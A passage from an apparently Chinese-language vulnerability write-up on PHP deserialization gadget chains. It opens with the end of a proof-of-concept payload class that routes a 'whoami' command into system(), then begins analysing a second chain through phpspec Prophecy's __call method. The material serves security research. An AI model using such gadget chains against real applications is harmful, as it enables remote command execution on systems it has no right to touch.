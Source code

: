 ```
        protected $validator;
        protected $maxRetries;
        public function __construct()
        {
            $this->generator = new DefaultGenerator();
            $this->validator = 'system';
            $this->maxRetries = '1';//防止抛出异常
        }
    }
    class DefaultGenerator
    {
        protected $default;
        public function __construct()
        {
            $this->default = 'whoami';
        }
    }
}

```

![image-20210929230754624](images/4.png)

# 第二条链子

## 漏洞分析

入口点不变,继续寻找可用的call方法

```
vendor\phpspec\prophecy\src\Prophecy\Prophecy\ObjectProphecy.php
```

```
public function __call($methodName, array $arguments)
    {
        $arguments = new ArgumentsWildcard($this->revealer->reveal($arguments));

        foreach ($this->getMethodProphecies($methodName) as $prophecy) {
            $argumentsWildcard = $prophecy->getArgumentsWildcard();
            $comparator = $this->comparatorFactory->getComparatorFor(
                $argumentsWildcard, $arguments
            );

            try {
                $comparator->assertEquals($argumentsWildcard, $arguments);
                return $prophecy;
            } catch (ComparisonFailure $failure) {}
        }

        return new MethodProphecy($this, $methodName, $arguments);
    }
```
